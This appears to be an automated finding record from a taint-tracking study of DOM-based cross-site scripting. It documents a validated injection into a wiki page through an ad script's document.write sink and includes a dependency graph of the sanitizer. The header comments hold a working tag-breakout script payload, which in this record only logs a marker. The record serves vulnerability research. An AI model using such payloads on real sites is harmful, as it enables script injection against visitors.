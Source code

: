// Finding: c3a83145-89ac-4216-b79b-68917aad22e7
// Finding.url: https://nioh2.wiki.example172.com/Nioh+2+Wiki
// Finding.parentloc: https://nioh2.wiki.example172.com/Nioh+2+Wiki##'></iframe></style></script></object></embed></textarea><script>taintfoxLog('bebe2b13553643eba00ad1c7757d7001')</script><!--/*
// Finding.domain: nioh2.wiki.example172.com
// Finding.base_domain: example172.com
// Finding.source: location.href
// Finding.sink: document.write
// Sanitizer.score: 1
// Sanitizer.name: SekindoClientDetections_URL/this.setInfo
// Sanitizer.location: https://live.example5.com/live/liveView.php?s=104853&cbuster=1195200171&pubUrl=https://nioh2.wiki.example172.com/Nioh%2B2%2BWiki%23%23%27%3E%3C/iframe%3E%3C/style%3E%3C/script%3E%3C/object%3E%3C/embed%3E%3C/textarea%3E%3Cscript%3EtaintfoxLog(%27bebe2b13553643eba00ad1c7757d7001%27)%3C/script%3E%3C!--/*&subId=[SUBID_ENCODED]&vp_content=plembed2143nhyuxzmr - SekindoClientDetections_URL/this.setInfo:621:7
// Finding.begin: 466
// Finding.end: 643
// Finding.original_uuid: 3f3629e7-61fb-4459-9a16-20148a1f1001
// Finding.TwentyFiveMillionFlowsId: 588168841
// Finding.script: https://live.example5.com/live/liveView.php?s=104853&cbuster=1195200171&pubUrl=https://nioh2.wiki.example172.com/Nioh%2B2%2BWiki%23%23%27%3E%3C/iframe%3E%3C/style%3E%3C/script%3E%3C/object%3E%3C/embed%3E%3C/textarea%3E%3Cscript%3EtaintfoxLog(%27bebe2b13553643eba00ad1c7757d7001%27)%3C/script%3E%3C!--/*&subId=[SUBID_ENCODED]&vp_content=plembed2143nhyuxzmr
// Finding.line: 915
// Exploit.uuid: bebe2b13-5536-43eb-a00a-d1c7757d7001
// Exploit.success: true
// Exploit.status: validated
// Exploit.method: C
// Exploit.type: html
// Exploit.token: attribute
// Exploit.content: src
// Exploit.quote_type: '
// Exploit.tag: script
// Exploit.break_out: #'></iframe></style></script></object></embed></textarea><script>
// Exploit.break_in: </script><!--/*
// Exploit.payload: #'></iframe></style></script></object></embed></textarea><script>taintfoxLog(1)</script><!--/*
// Exploit.begin_taint_url: 0
// Exploit.end_taint_url: 45
// Exploit.replace_begin_url: 45
// Exploit.replace_end_url: 45
// Exploit.replace_begin_param: 282
// Exploit.replace_end_param: 282
// Issues.LargestEncodeAttrStringChain: 0
// Issues.LargestTextFragmentEncodeChainLength: 0
// Issues.HasApproximation: false
// Issues.HasMissingImplementation: false
// Issues.HasInfiniteRegexWithFunctionReplacer: false
// Issues.MergedSplitAndJoins: false
// Issues.HasUrlInRhsOfReplace: false
// Issues.HasUrlInLhsOfReplace: false
// Issues.HasCookieValueInLhsOfreplace: false
// Issues.HasCookieValueInRhsOfreplace: false
// Issues.HasCookieValueInMatchPattern: false
// Issues.HasCookieValueInExecPattern: false
// Issues.RemovedLRConcats: false
// Issues.RemovedReplaceArtifacts: false
// Issues.HasUrlInMatchPattern: false
// Issues.HasUrlInExecPattern: false
// Issues.RemovedNOPreplaces: false
// Issues.Known_sanitizer: false
// DepGraph.hash: -1061479680
// DepGraph.sanitizer_hash: -1906105546

digraph cfg {
n0 [shape=house, label="Input: x"];
n1 [shape=ellipse, label="encodeURIComponent"];
n2 [shape=box, label="Var: x"];
n3 [shape=ellipse, label="."];
n4 [shape=box, label="Lit: &pubUrlAuto="];
n5 [shape=ellipse, label="."];
n6 [shape=box, label="Lit: https://live.example5.com/live/liveView.php?s=104853&cbuster=11....BID_ENCODED]&vp_content=plembed2143nhyuxzmr&cbuster=1619939817"];
n7 [shape=ellipse, label="str_replace_once"];
n8 [shape=box, label="Lit: SEKXLEN"];
n9 [shape=box, label="Lit: 320"];
n10 [shape=box, label="Var: x"];
n11 [shape=ellipse, label="str_replace_once"];
n12 [shape=box, label="Lit: SEKYLEN"];
n13 [shape=box, label="Lit: 180"];
n14 [shape=box, label="Var: x"];
n15 [shape=ellipse, label="str_replace_once"];
n16 [shape=box, label="Lit: '"];
n17 [shape=box, label="Lit: %27"];
n18 [shape=box, label="Var: x"];
n19 [shape=ellipse, label="str_replace_once"];
n20 [shape=box, label="Lit: /liveView.php"];
n21 [shape=box, label="Lit: /prebid-ads.php"];
n22 [shape=box, label="Var: x"];
n23 [shape=ellipse, label="."];
n24 [shape=box, label="Lit: &csuuid=608e51e9d7da6"];
n25 [shape=ellipse, label="."];
n26 [shape=box, label="Lit: &videoType=flow&floatWidth=400&floatHeight=225&floatDirection=....floatCloseBtn=1&flowMode=seenboth&flowCloseButtonPosition=left"];
n27 [shape=box, label="Var: x"];
n28 [shape=doubleoctagon, label="Return: x"];
n2 -> n0;
n1 -> n2;
n3 -> n4;
n3 -> n1;
n5 -> n6;
n5 -> n3;
n10 -> n5;
n7 -> n8;
n7 -> n9;
n7 -> n10;
n14 -> n7;
n11 -> n12;
n11 -> n13;
n11 -> n14;
n18 -> n11;
n15 -> n16;
n15 -> n17;
n15 -> n18;
n22 -> n15;
n19 -> n20;
n19 -> n21;
n19 -> n22;
n23 -> n19;
n23 -> n24;
n25 -> n23;
n25 -> n26;
n27 -> n25;
n28 -> n27;
}